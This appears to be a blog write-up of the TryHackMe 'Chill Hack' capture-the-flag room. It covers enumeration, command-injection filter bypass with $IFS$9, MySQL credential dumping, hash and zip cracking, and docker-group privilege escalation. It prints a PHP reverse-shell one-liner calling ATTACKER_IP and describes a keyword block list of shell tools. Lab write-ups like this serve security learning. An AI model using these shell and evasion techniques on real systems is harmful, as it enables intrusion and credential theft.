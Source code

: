 ```yaml
---
layout: post
title: THM Chill Hack writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/chillhack/0.head.png">
<!--more-->
<a href="https://tryhackme.com/room/chillhack" target="_blank" > Click here to access this box on TryHackMe.com</a>
<hr>
<h1>ENUMERATION:</h1>
<hr>
<p>Let's start by scanning for open ports with NMAP.</p>
<p>In the output below we can see that FTP (port 21) and SSH (port 22) are open. There’s also an apache  web server running on port 80.</p>
<img src="/img/chillhack/1.nmap.png">

<p>First let see what's in the note.txt file on the FTP service since anonymous login is allowed.</p>
<p>login with “anonymous:anonymous”.</p>
<img src="/img/chillhack/2.ftp-login.png">

<p>Download (GET) the note.txt file.</p>
<img src="/img/chillhack/3.ftp-note-dl.png">

<p>Read the contents of the file.</p>
<p> This isn’t very helpful right now but will take note of this. </p>
<p> Let’s enumerate the webserver in our web browser.</p>
<img src="/img/chillhack/4.note-text.png">

<p>We have a web page that appears to be dedicated to  pseudo soccer teams.</p>
<p>I spent some time enumerating all the input fields and links. All of them appear to be “dummy” place holders.</p>  
<img src="/img/chillhack/5.home-webpage.png">

<p>Let’s try and enumerate the sub directories by using gobuster.</p>
<img src="/img/chillhack/6.dirbuster.png">

<p>From the output below we see there’s a directory named “secret”. Let’s navigate to the page</p>
<img src="/img/chillhack/7.dirbuster2.png">

<p>When we navigate to that page we’re presented with an input box that says "command". Oaky,Let’s try and issue some commands. Since we know from NMAP this is most likely running on a Linux, let’s try some bash commands.</p>
<img src="/img/chillhack/8.secret-page.png">

<p>If we type “id" command we get a response in our web browser. Let’s try and use net cat to get a basic reverse shell.</p>
<img src="/img/chillhack/9.id-input.png">

<p>First let’s set up a listener on our attacking machine to catch the shell.</p>
<img src="/img/chillhack/10.nc-listner.png">

<p>Okay, I didn't think it would be that easy. This must be what the note.txt in the FTP server was speaking to. They're filtering out some keywords - “nc” appears to be one.</p>
<img src="/img/chillhack/11.nc-fail.png">

<p>I tried using Burp Suite to send the POST request to try and bypass any client side scripting that may be filtering input data. That didn’t work.</p>
<img src="/img/chillhack/12.burp.png">
<hr>
<h1>GAINING A FOOTHOLD:</h1>
<hr>
<p>After fuzzing the input data for a while, I found a way to defeat the input filtering by using “$IFS$9” (this will be interpreted as a white space on the server). I’m assuming there’s an input validation that has a hard coded list of keywords. E.g.  'nc', 'python', 'bash','php','perl', etc… If we take the command “nc -e” and replace the withe space with “nc$IFS$9-e” we can get the command to execute without triggering the input validation filter.  </p>
<img src="/img/chillhack/13.input-trick.png">

<p>Altho this trick worked I couldn’t get a shell to “pop” using any net cat commands. I used a PHP one-liner and “popped” a reverse shell: php$IFS$9-r '$sock=fsockopen("ATTACKER_IP",PORT_NUM);exec("/bin/sh -i <&3 >&3 2>&3");'  </p>
<img src="/img/chillhack/14.php-1liner.png">

<p>...and we have a non interactive shell running as www-data. Let’s upgrade this to pseudo interactive. Read more about upgragding your shell to fully interactive here <a href="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" target="blank"> here</a> </p>
<img src="/img/chillhack/15.first-shell.png"></p>

<p>Using this Python command we can get a pseudo interactive shell and start enumerating.</p>
<img src="/img/chillhack/16.psudo-i-shell.png">

<p>Looking through the file system there's an interesting  directory named “files” that we have read access to. There’s also a folder named images. I downloaded all these files by setting up a simple python and issuing a wget command from my machine.</p>
<img src="/img/chillhack/17.files.png">

<p>When we cat the index.php file we find a MySql user name and password. Let’s note these and see if we can connect to the MySql server. </p>
<img src="/img/chillhack/18.mysql-creds.png">

<p>We’re connected to the SQL database. Let’s begin enumerating.</p>
<img src="/img/chillhack/19.mysql-login.png">

<p>The webportal table looks interesting. Let’s see what  tables it has.</p>
<img src="/img/chillhack/20.mysql-tables.png">

<p>Let’s see if we can get any user creds from this table.</p>
<img src="/img/chillhack/21.mysql-table.png">

<p>Great, we have usernames and passwords. These passwords are hashed with  MD5. Let see if Crakstation.net can crack these before we try hashcat.</p>
<img src="/img/chillhack/22.user-password-hashed.png">

<p>They were very weak passwords and crackstation.net was able to crack both. Let’s note the user names and password and keep enumerating. </p>
<img src="/img/chillhack/23.crack-station.png">

<p>Let’s check the images we download from the images folder on the server. First let’s try the .jpg and see if these any hidden data in it.</p>
<img src="/img/chillhack/">

<p>Using steghide I was able to extract a file named backup.zip. Let’s unzip and see what’s inside.</p>
<img src="/img/chillhack/24.backup-.zip-file.png">

<p>It’s password protected. I tried the three passwords I captured earlier but these didn’t work. let ‘s try and bruteforce the password.</p>
<img src="/img/chillhack/25.unzip-pass-pro.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>Let’s see what’s inside. When we unzip the file we find another file named source_code.php. There’s credentials hardcoded in this php, but it’s base64 encoded.</p>
<img src="/img/chillhack/27.creds-again.png">

<p>Let’s decode the password.</p>
<img src="/img/chillhack/28.base64-d.png">

<p>Let’s see if we can use these creds to ssh in so we have a more stable shell</p>
<img src="/img/chillhack/">
<hr>
<h1>PRIVILEGE ESCALATION:</h1>
<hr>
<p>Success. Now let’s enumerate for priv esc.</p>
<img src="/img/chillhack/29.ssh-shell.png">

<p>We’re in the Docker group. This looks like a potential priv esc path.</p>
<img src="/img/chillhack/30.docker-group.png">

<p>A quick check on GTFO bins.</p>
<img src="/img/chillhack/31.gtfo-bins.png">
<p>And we are root. Let’s cat our flags.</p>
<img src="/img/chillhack/32.we-are-root.png">
<p>User flag.</p>
<img src="/img/chillhack/33.user-flag.png">
<p>And the root flag. This was a really fun box!!</p>
<img src="/img/chillhack/34.root-flag.png">




